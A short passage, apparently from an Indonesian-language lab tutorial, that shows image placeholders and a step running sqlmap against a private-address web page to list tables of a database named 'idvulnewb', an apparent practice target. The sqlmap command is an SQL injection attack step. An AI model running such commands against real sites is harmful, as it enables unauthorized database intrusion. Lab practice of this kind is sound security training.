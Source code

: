 <img src="./media/image14.png"
style="width:6.26806in;height:3.01944in" />

5\. setelah itu pilih vunlweb

<img src="./media/image15.png"
style="width:6.26806in;height:2.3375in" />

Lakukan pemanggilan database sqlmap -u
"http://192.168.1.10/?tampil=artikel_detail&id=83" -D idvulnewb --tables
